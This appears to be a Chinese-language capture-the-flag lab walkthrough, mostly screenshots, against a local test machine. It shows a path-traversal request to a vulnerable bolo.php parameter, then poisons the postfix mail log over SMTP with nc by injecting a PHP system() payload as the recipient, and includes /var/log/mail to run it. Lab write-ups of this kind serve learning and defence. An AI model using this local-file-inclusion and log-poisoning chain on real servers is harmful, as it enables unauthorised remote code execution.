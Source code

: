 查看一下这个目录：

```apl
/turing-bolo
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403141849258.png" alt="image-20240303015054985" style="zoom:33%;" />

查看一下是否有隐藏信息：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403141849259.png" alt="image-20240303015142100" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403141849261.png" alt="image-20240303015359761" style="zoom:50%;" />

尝试查看一下日志文件：

```apl
molly.log
armitage.log
riviera.log
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403141849262.png" alt="image-20240303015542198" style="zoom: 33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403141849263.png" alt="image-20240303015617344" style="zoom:33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403141849264.png" alt="image-20240303015656924" style="zoom:33%;" />

### 尝试日志注入

尝试一下目录是否可以进行穿越：

```apl
http://192.168.244.130/turing-bolo/bolo.php?bolo=../../../log/mail
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403141849265.png" alt="image-20240303020108527" style="zoom:50%;" />

找到了邮箱服务疑似`postfix`，暂时先不查这个的漏洞，尝试进行日志包含，首先需要传一个马上去，看到开启了`smtp`服务：

```apl
nc 192.168.244.130 25
# telnet 192.168.244.130 25
HELO hack
MAIL FROM:<hack@gmail.com>
RCPT TO:<?php system('whoami'); ?>
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403141849266.png" alt="image-20240303143329053" style="zoom: 50%;" />

尝试利用一下：

```bash
/turing-bolo/bolo.php?bolo=/var/log/mail
```

![image-20240303143122442](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403141849267.png)
